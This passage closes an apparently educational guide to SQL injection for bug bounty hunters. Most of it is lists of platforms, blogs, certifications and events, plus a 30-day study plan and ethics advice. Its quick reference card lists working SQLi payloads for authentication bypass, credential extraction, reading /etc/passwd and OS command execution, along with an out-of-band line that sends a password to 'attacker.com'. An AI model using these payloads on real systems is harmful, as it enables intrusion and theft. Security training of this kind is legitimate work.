# Docker setup for vulnerable apps
docker pull vulnerables/web-dvwa
docker pull bkimminich/juice-shop
docker pull webgoat/goatandwolf
```

### Bug Bounty Platforms

```
MAJOR PLATFORMS
━━━━━━━━━━━━━━━━━━━━━━━━━━
1. HackerOne
   URL: https://hackerone.com/
   Programs: 2,000+
   Average Bounty: $500-$5,000
   Top Programs: Shopify, Twitter, GitHub
   
2. Bugcrowd
   URL: https://bugcrowd.com/
   Programs: 500+
   Average Bounty: $300-$3,000
   Top Programs: Tesla, Western Union
   
3. Synack
   URL: https://www.synack.com/
   Programs: Invite-only
   Average Bounty: $1,000-$10,000
   Top Programs: Government, Enterprise
   
4. Intigriti
   URL: https://www.intigriti.com/
   Programs: 100+
   Region: Europe-focused
   Average Bounty: €500-€5,000
   
5. YesWeHack
   URL: https://www.yeswehack.com/
   Programs: 300+
   Region: Europe-focused
   Average Bounty: €300-€3,000

DIRECT VRP PROGRAMS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Google VRP         - https://bughunters.google.com/
Facebook Bug Bounty - https://www.facebook.com/whitehat
Microsoft MSRC     - https://www.microsoft.com/en-us/msrc/bounty
Apple Security     - https://support.apple.com/en-us/HT201220
PayPal Bug Bounty  - https://www.paypal.com/us/webapps/mpp/security-tools/reporting-security-issues

PUBLIC DISCLOSURE
━━━━━━━━━━━━━━━━━━━━━━━━━━
Open Bug Bounty    - https://www.openbugbounty.org/
(Responsible disclosure, no bounties)
```

### Community & Forums

```
FORUMS & COMMUNITIES
━━━━━━━━━━━━━━━━━━━━━━━━━━
Reddit r/bugbounty       - https://reddit.com/r/bugbounty
Reddit r/netsec          - https://reddit.com/r/netsec
HackerOne Hacktivity     - https://hackerone.com/hacktivity
Bugcrowd Forum           - https://forum.bugcrowd.com/
OWASP Slack              - https://owasp.org/slack/invite

DISCORD SERVERS
━━━━━━━━━━━━━━━━━━━━━━━━━━
NahamSec Discord         - Bug bounty community
The Cyber Mentor Discord - Security learning
HackTheBox Discord       - CTF community
TryHackMe Discord        - Learning platform

TWITTER (X) ACCOUNTS
━━━━━━━━━━━━━━━━━━━━━━━━━━
@NahamSec               - Bug bounty tips
@stokfredrik            - Bug bounty hunting
@jhaddix                - Web app security
@zseano                 - Bug bounty methodology
@OWASP                  - OWASP updates
@PortSwiggerRes         - Burp Suite & research
@jobertabma             - HackerOne co-founder
@samwcyo                - Bug bounty insights
@infosec_au             - Australian infosec
@hakluke                - Bug bounty & automation

YOUTUBE CHANNELS
━━━━━━━━━━━━━━━━━━━━━━━━━━
STÖK                    - Bug bounty vlogs
NahamSec                - Bug bounty & hacking
The Cyber Mentor        - Complete courses
PwnFunction             - Security concepts
LiveOverflow            - CTF & exploitation
IppSec                  - HackTheBox walkthroughs
John Hammond            - CTF & security
Computerphile           - Computer science concepts
```

### Blogs & Write-ups

```
ESSENTIAL BLOGS
━━━━━━━━━━━━━━━━━━━━━━━━━━
PortSwigger Research    - https://portswigger.net/research
OWASP                   - https://owasp.org/www-community/
Google Security Blog    - https://security.googleblog.com/
InfoSec Write-ups       - https://infosecwriteups.com/
PentesterLand          - https://pentester.land/
Bug Bounty Write-ups   - https://medium.com/bugbountywriteup

PERSONAL BLOGS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Sam (CWH)              - https://samcurry.net/
Jason Haddix           - https://www.jhaddix.com/
Orange Tsai            - http://blog.orange.tw/
James Kettle           - https://skeletonscribe.net/
Vickie Li              - https://vickieli.dev/
Patrik Fehrenbach      - https://bugs.xdavidhu.me/
```

### Payload Collections

```
PAYLOAD REPOSITORIES
━━━━━━━━━━━━━━━━━━━━━━━━━━
PayloadsAllTheThings
  URL: https://github.com/swisskyrepo/PayloadsAllTheThings
  Content: Comprehensive payload collection
  SQLi: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  
SecLists
  URL: https://github.com/danielmiessler/SecLists
  Content: Security testing lists
  SQLi: SecLists/Fuzzing/SQLi/
  
FuzzDB
  URL: https://github.com/fuzzdb-project/fuzzdb
  Content: Attack patterns and payloads
  
SQLi Payloads
  URL: https://github.com/payloadbox/sql-injection-payload-list
  Content: Categorized SQL injection payloads
  
SQL Injection Knowledge Base
  URL: https://websec.ca/kb/sql_injection
  Content: Detailed SQLi techniques
```

### Cheat Sheets & Quick References

```
COMPREHENSIVE CHEAT SHEETS
━━━━━━━━━━━━━━━━━━━━━━━━━━
PortSwigger SQL Injection Cheat Sheet
  URL: https://portswigger.net/web-security/sql-injection/cheat-sheet
  Content: Database-specific payloads
  Format: Interactive web page
  
PentestMonkey SQL Injection Cheat Sheet
  URL: http://pentestmonkey.net/cheat-sheet/sql-injection/
  Content: Database-specific techniques
  Format: Single page reference
  
HackTricks SQL Injection
  URL: https://book.hacktricks.xyz/pentesting-web/sql-injection
  Content: Comprehensive exploitation guide
  Format: Gitbook
  
OWASP SQL Injection Cheat Sheet
  URL: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
  Content: Prevention techniques
  Format: Developer-focused

DATABASE-SPECIFIC
━━━━━━━━━━━━━━━━━━━━━━━━━━
MySQL Injection Cheat Sheet
  https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
  
MSSQL Injection Cheat Sheet
  http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
  
PostgreSQL Injection Cheat Sheet
  http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
  
Oracle Injection Cheat Sheet
  http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
```

### Official Documentation

```
DATABASE DOCUMENTATION
━━━━━━━━━━━━━━━━━━━━━━━━━━
MySQL Documentation
  URL: https://dev.mysql.com/doc/
  Focus: SQL syntax, functions, security
  
PostgreSQL Documentation
  URL: https://www.postgresql.org/docs/
  Focus: Complete reference manual
  
Microsoft SQL Server Documentation
  URL: https://docs.microsoft.com/en-us/sql/
  Focus: T-SQL, security features
  
Oracle Database Documentation
  URL: https://docs.oracle.com/en/database/
  Focus: PL/SQL, security

SECURITY STANDARDS
━━━━━━━━━━━━━━━━━━━━━━━━━━
OWASP Top 10
  URL: https://owasp.org/www-project-top-ten/
  
CWE-89: SQL Injection
  URL: https://cwe.mitre.org/data/definitions/89.html
  
CAPEC-66: SQL Injection
  URL: https://capec.mitre.org/data/definitions/66.html
  
PCI DSS Requirements
  URL: https://www.pcisecuritystandards.org/
```

### Certifications

```
ENTRY LEVEL
━━━━━━━━━━━━━━━━━━━━━━━━━━
eLearnSecurity eWPT (Web Application Penetration Tester)
  Price: ~$400
  Duration: Self-paced
  Difficulty: Intermediate
  Focus: Web application testing
  
Certified Ethical Hacker (CEH)
  Price: ~$1,199
  Duration: 5 days training
  Difficulty: Entry level
  Focus: General ethical hacking

INTERMEDIATE
━━━━━━━━━━━━━━━━━━━━━━━━━━
GIAC Web Application Penetration Tester (GWAPT)
  Price: ~$7,500 (with training)
  Duration: 6 days
  Difficulty: Intermediate
  Focus: Web application security
  Provider: SANS
  
CompTIA PenTest+
  Price: ~$370
  Duration: Self-paced
  Difficulty: Intermediate
  Focus: Penetration testing

ADVANCED
━━━━━━━━━━━━━━━━━━━━━━━━━━
Offensive Security Web Expert (OSWE)
  Price: ~$1,600
  Duration: 90 days
  Difficulty: Advanced
  Focus: Advanced web exploitation
  Exam: 48-hour practical
  
GIAC Exploit Researcher and Advanced Penetration Tester (GXPN)
  Price: ~$8,000 (with training)
  Duration: 6 days
  Difficulty: Advanced
  Focus: Exploit development
```

### Bug Bounty Report Databases

```
PUBLIC DISCLOSURE PLATFORMS
━━━━━━━━━━━━━━━━━━━━━━━━━━
HackerOne Hacktivity
  URL: https://hackerone.com/hacktivity
  Content: Public disclosed reports
  Filter: By vulnerability type, bounty amount
  
Bugcrowd Crowdstream
  URL: https://bugcrowd.com/crowdstream
  Content: Public submissions
  
Google Bug Hunter University
  URL: https://bughunters.google.com/learn
  Content: Real bug reports with analysis
  
GitHub Security Advisories
  URL: https://github.com/advisories
  Content: Security vulnerabilities in software
```

### Conferences & Events

```
MAJOR SECURITY CONFERENCES
━━━━━━━━━━━━━━━━━━━━━━━━━━
DEF CON (Las Vegas, August)
  URL: https://defcon.org/
  Focus: Hacking conference
  Villages: Bug bounty, lockpicking, car hacking
  
Black Hat (Las Vegas, August)
  URL: https://www.blackhat.com/
  Focus: Information security
  Training: Advanced web security courses
  
OWASP Global AppSec (Various locations)
  URL: https://owasp.org/events/
  Focus: Application security
  
BSides (Various cities, year-round)
  URL: http://www.securitybsides.com/
  Focus: Community-driven security
  Price: Often free
  
NahamCon (Online, June)
  URL: https://www.nahamcon.com/
  Focus: Bug bounty and hacking
  Price: Free

VIRTUAL EVENTS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Live Hacking Events (HackerOne)
  URL: https://www.hackerone.com/ethical-hacker/live-hacking-events
  Frequency: Multiple per year
  
Bug Bounty Webinars
  Various platforms host regular webinars
```

### GitHub Repositories

```
MUST-FOLLOW REPOSITORIES
━━━━━━━━━━━━━━━━━━━━━━━━━━
Awesome Bug Bounty
  URL: https://github.com/djadmin/awesome-bug-bounty
  Content: Curated resources
  
Awesome Web Security
  URL: https://github.com/qazbnm456/awesome-web-security
  Content: Web security resources
  
Bug Bounty Reference
  URL: https://github.com/ngalongc/bug-bounty-reference
  Content: Disclosed reports and write-ups
  
SQLMap
  URL: https://github.com/sqlmapproject/sqlmap
  Content: Official SQLMap repository
  
PayloadsAllTheThings
  URL: https://github.com/swisskyrepo/PayloadsAllTheThings
  Content: Payload collection
  
SecLists
  URL: https://github.com/danielmiessler/SecLists
  Content: Testing wordlists
  
HackTricks
  URL: https://github.com/carlospolop/hacktricks
  Content: Pentesting knowledge base
```

### Mobile Apps

```
USEFUL MOBILE APPLICATIONS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Termux (Android)
  Purpose: Terminal emulator
  Use: Run security tools on mobile
  
Hacki (iOS/Android)
  Purpose: HackerOne client
  Use: Manage bug bounty programs
  
Bugcrowd (iOS/Android)
  Purpose: Official Bugcrowd app
  Use: Submit and track reports
  
Hacker's Keyboard (Android)
  Purpose: Full keyboard with special characters
  Use: Essential for typing payloads
```

### Podcasts

```
SECURITY PODCASTS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Darknet Diaries
  Focus: True hacking stories
  Host: Jack Rhysider
  
The Bug Bounty Podcast
  Focus: Bug bounty hunting
  Host: Fisher (Critical Thinking Podcast)
  
Security Now
  Focus: Security news and topics
  Host: Steve Gibson
  
Risky Business
  Focus: Information security news
  
The Cyberwire Daily
  Focus: Daily security news
  Duration: 20-30 minutes
```

### Newsletters

```
ESSENTIAL SECURITY NEWSLETTERS
━━━━━━━━━━━━━━━━━━━━━━━━━━
tl;dr sec
  URL: https://tldrsec.com/
  Frequency: Weekly
  Focus: Security tools and articles
  
Unsupervised Learning by Daniel Miessler
  URL: https://danielmiessler.com/newsletter/
  Frequency: Weekly
  Focus: Security insights
  
This Week in Security
  Focus: Weekly security roundup
  
Bug Bytes (Intigriti)
  URL: https://blog.intigriti.com/
  Frequency: Weekly
  Focus: Bug bounty tips
  
The Hacker News
  URL: https://thehackernews.com/
  Frequency: Daily
  Focus: Security news
```

### Quick Reference Card

```markdown
# SQL INJECTION QUICK REFERENCE

## Detection Payloads
'
"
' OR '1'='1
' AND 1=1--
' AND SLEEP(5)--

## UNION Injection
' ORDER BY 1--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT @@version,database(),user()--

## Error-Based
' AND extractvalue(1,concat(0x7e,version()))--  # MySQL
' AND 1=CONVERT(int,@@version)--                # MSSQL
' AND 1=CAST(version() AS int)--                # PostgreSQL

## Time-Based
' AND SLEEP(5)--                                # MySQL
'; WAITFOR DELAY '00:00:05'--                   # MSSQL
'; SELECT pg_sleep(5)--                         # PostgreSQL
' AND DBMS_LOCK.SLEEP(5)--                     # Oracle

## Boolean Blind
' AND '1'='1    # TRUE
' AND '1'='2    # FALSE
' AND SUBSTRING(database(),1,1)='a'--

## Authentication Bypass
admin'--
' OR '1'='1
admin' OR '1'='1'--

## Data Extraction
' UNION SELECT username,password FROM users--
' UNION SELECT table_name FROM information_schema.tables--
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

## File Operations
' UNION SELECT LOAD_FILE('/etc/passwd')--       # MySQL
' UNION SELECT pg_read_file('/etc/passwd')--    # PostgreSQL

## Command Execution
' UNION SELECT sys_eval('whoami')--             # MySQL UDF
'; COPY (SELECT '') TO PROGRAM 'whoami'--       # PostgreSQL
'; EXEC xp_cmdshell 'whoami'--                  # MSSQL

## Out-of-Band
' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'.attacker.com\\a'))--  # MySQL
```

---

## 🎓 Learning Roadmap

### 30-Day SQLi Mastery Plan

```
WEEK 1: FOUNDATIONS
━━━━━━━━━━━━━━━━━━━━━━━━━━
Day 1-2:  Understand SQL basics
          - Read SQL tutorial
          - Practice basic queries
          
Day 3-4:  Study SQLi theory
          - Read OWASP SQLi guide
          - Watch beginner videos
          
Day 5-7:  Practice on DVWA
          - Install DVWA
          - Complete all SQLi levels
          - Document findings

WEEK 2: INTERMEDIATE TECHNIQUES
━━━━━━━━━━━━━━━━━━━━━━━━━━
Day 8-10: UNION-based injection
          - PortSwigger Academy labs
          - Practice column enumeration
          - Data extraction exercises
          
Day 11-13: Blind SQL injection
           - Boolean-based practice
           - Time-based techniques
           - Write basic scripts
           
Day 14:   Review and practice
          - Complete SQLi-Labs challenges
          - Document learnings

WEEK 3: ADVANCED EXPLOITATION
━━━━━━━━━━━━━━━━━━━━━━━━━━
Day 15-17: Database-specific techniques
           - MySQL exploitation
           - MSSQL techniques
           - PostgreSQL methods
           
Day 18-20: Advanced topics
           - Second-order SQLi
           - Out-of-band techniques
           - WAF bypass methods
           
Day 21:   Practice on WebGoat
          - Complete all SQLi modules

WEEK 4: BUG BOUNTY PREPARATION
━━━━━━━━━━━━━━━━━━━━━━━━━━
Day 22-24: Reconnaissance tools
           - Learn subdomain enumeration
           - URL discovery
           - Parameter finding
           
Day 25-27: Automation
           - SQLMap mastery
           - Custom scripts
           - Tool integration
           
Day 28-29: Report writing
           - Study sample reports
           - Practice documentation
           
Day 30:   Start hunting!
          - Join bug bounty platform
          - Select first target
          - Begin testing

POST-30 DAYS: CONTINUOUS IMPROVEMENT
━━━━━━━━━━━━━━━━━━━━━━━━━━
- Test 2-3 targets per week
- Read disclosed reports
- Practice daily
- Join communities
- Share knowledge
```

### Recommended Study Schedule

```
DAILY ROUTINE (2-3 hours)
━━━━━━━━━━━━━━━━━━━━━━━━━━
30 min:  Theory (read articles, watch videos)
60 min:  Hands-on practice (labs, CTFs)
30 min:  Tool practice (SQLMap, Burp Suite)
30 min:  Community engagement (forums, Discord)

WEEKLY GOALS
━━━━━━━━━━━━━━━━━━━━━━━━━━
- Complete 3-5 practice labs
- Read 2-3 bug bounty reports
- Write one blog post/notes
- Test 1-2 bug bounty targets
- Watch 2-3 educational videos

MONTHLY GOALS
━━━━━━━━━━━━━━━━━━━━━━━━━━
- Submit 2-3 valid bug reports
- Complete one CTF
- Read one security book chapter
- Create/improve one tool
- Help others in community
```

---

## 🎯 Final Words

### Success Mindset

```
PRINCIPLES FOR SUCCESS
━━━━━━━━━━━━━━━━━━━━━━━━━━
1. Consistency over Intensity
   Practice daily, even if just 30 minutes
   
2. Learn in Public
   Share your findings and learnings
   
3. Help Others
   Teaching reinforces your knowledge
   
4. Stay Ethical
   Always follow responsible disclosure
   
5. Never Stop Learning
   Security landscape constantly evolves
   
6. Build in Public
   Create tools, write blogs, make videos
   
7. Network
   Attend conferences, join communities
   
8. Document Everything
   Your future self will thank you
   
9. Practice Patience
   First bounty might take time
   
10. Have Fun
    Enjoy the learning journey!
```

### Common Pitfalls to Avoid

```
❌ AVOID THESE MISTAKES
━━━━━━━━━━━━━━━━━━━━━━━━━━
1. Testing without authorization
   - Always get permission
   - Stay within scope
   
2. Extracting too much data
   - Minimal data for PoC
   - Don't download databases
   
3. Using destructive payloads
   - No DROP TABLE
   - No DELETE queries
   - No data modification
   
4. Public disclosure
   - Never post findings publicly
   - Respect embargo periods
   
5. Automated tool reliance
   - Understand what tools do
   - Don't blindly trust results
   
6. Ignoring communication
   - Respond to program teams
   - Be professional
   
7. Giving up too soon
   - First bounty takes time
   - Keep learning and trying
   
8. Neglecting documentation
   - Always document findings
   - Clear reproduction steps
   
9. Testing in production
   - Use staging when available
   - Minimize impact
   
10. Comparing to others
    - Everyone's journey is different
    - Focus on your progress
```

### Your First Bounty Checklist

```markdown
## FIRST BOUNTY PREPARATION

### Skills
- [ ] Completed PortSwigger SQLi labs
- [ ] Practiced on 3+ vulnerable apps
- [ ] Understand all SQLi types
- [ ] Can use Burp Suite effectively
- [ ] Know SQLMap basics
- [ ] Can write clear reports

### Tools Setup
- [ ] Burp Suite configured
- [ ] SQLMap installed and tested
- [ ] Recon tools installed
- [ ] Note-taking system ready
- [ ] Screenshot tool ready

### Platform Setup
- [ ] Signed up on bug bounty platform
- [ ] Profile completed
- [ ] Read program policies
- [ ] Understood scope
- [ ] Reviewed reward structure

### Testing Preparation
- [ ] Selected first target
- [ ] Read all program rules
- [ ] Prepared testing environment
- [ ] Created testing checklist
- [ ] Ready to document findings

### After First Finding
- [ ] Document all details
- [ ] Create clear PoC
- [ ] Write professional report
- [ ] Submit and wait patiently
- [ ] Respond to questions promptly
```

---

## 📖 Conclusion

This guide has covered everything from basic SQL injection concepts to advanced exploitation techniques, bug bounty methodology, and real-world case studies. 

**Remember:**
- Start with the basics and build up
- Practice on legal targets only
- Stay ethical always
- Keep learning continuously
- Give back to the community

**Your Journey Starts Now:**
1. Set up your practice environment
2. Complete beginner labs
3. Join bug bounty platforms
4. Start hunting responsibly
5. Share your knowledge

**Stay Connected:**
- Follow security researchers on Twitter
- Join Discord communities
- Attend conferences (virtual or in-person)
- Contribute to open source
- Write about your learnings

---

## 📜 License & Disclaimer

```
LICENSE
━━━━━━━━━━━━━━━━━━━━━━━━━━
This guide is released under MIT License.
Free to use for educational purposes.

DISCLAIMER
━━━━━━━━━━━━━━━━━━━━━━━━━━
⚠️ IMPORTANT: This guide is for educational purposes only.

- Only test systems you own or have explicit permission to test
- Bug bounty hunting requires authorization from the target
- Unauthorized access is illegal and punishable by law
- Always follow responsible disclosure guidelines
- The author is not responsible for misuse of this information

ETHICAL HACKING PRINCIPLES
━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Get written permission before testing
✓ Stay within defined scope
✓ Don't access/modify data unnecessarily
✓ Report findings responsibly
✓ Respect embargo periods
✓ Never publicly disclose without permission
```

---

## 🙏 Acknowledgments

```
SPECIAL THANKS TO:
━━━━━━━━━━━━━━━━━━━━━━━━━━
- OWASP Community
- PortSwigger Research Team
- HackerOne Platform
- Bugcrowd Platform
- All security researchers who share knowledge
- Bug bounty community on Twitter
- Open source tool developers
- Everyone who contributed to this guide
```

---

## 📬 Contact & Contributions

```
CONTRIBUTE TO THIS GUIDE
━━━━━━━━━━━━━━━━━━━━━━━━━━
Found an error? Have suggestions?
- Open an issue on GitHub
- Submit a pull request
- Share your feedback

STAY UPDATED
━━━━━━━━━━━━━━━━━━━━━━━━━━
Star the repository for updates
Follow the project on GitHub
Join our Discord community
```

---

**Version:** 1.0  
**Last Updated:** 2026
**Contributors:** Security Community  
**Status:** Complete & Actively Maintained

---

# THE END

**You now have everything you need to become a successful SQL injection hunter!**

**Go forth and hack responsibly! **

---

*"The only way to do great work is to love what you do." - Steve Jobs*

*"In theory, theory and practice are the same. In practice, they are not." - Albert Einstein*

*"Practice isn't the thing you do once you're good. It's the thing you do that makes you good." - Malcolm Gladwell*

**Happy Hunting! 🐛💰🎉**
